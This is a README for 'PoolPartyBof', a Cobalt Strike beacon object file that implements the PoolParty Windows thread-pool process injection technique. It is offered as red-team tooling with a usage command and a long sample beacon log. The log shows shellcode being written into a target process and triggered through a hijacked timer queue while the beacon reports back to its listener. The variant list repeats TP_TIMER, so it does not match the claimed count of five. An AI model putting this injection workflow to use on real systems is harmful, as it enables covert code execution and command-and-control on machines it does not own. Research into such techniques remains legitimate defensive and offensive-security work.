

# PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_TIMER work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Listener Name>
```

- Usage Examples

```
beacon> PoolPartyBof 7216 HTTPSLocal
[*] Opening 7216 and running PoolParty with HTTPSLocal listener!
[+] host called home, sent: 314052 bytes
[+] received output:
[INFO] 	Shellcode Size: 307204 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 7216
[+] received output:
[INFO] 	Retrieved handle to the target process: 00000000000003F0
[+] received output:
[INFO] 	Hijacked worker factory handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Hijacked timer queue handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Allocated shellcode memory in the target process: 0000029B99E10000
[+] received output:
[INFO] 	Written shellcode to the target process
[+] received output:
[INFO] 	Retrieved target worker factory basic information
[+] received output:
[INFO] 	Created TP_TIMER structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_TIMER memory in the target process: 0000029B99E60000 
[+] received output:
[INFO] 	Written the specially crafted TP_TIMER structure to the target process
[+] received output:
[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
[+] received output:
[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[+] received output:
[INFO] 	PoolParty attack completed successfully
```



> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
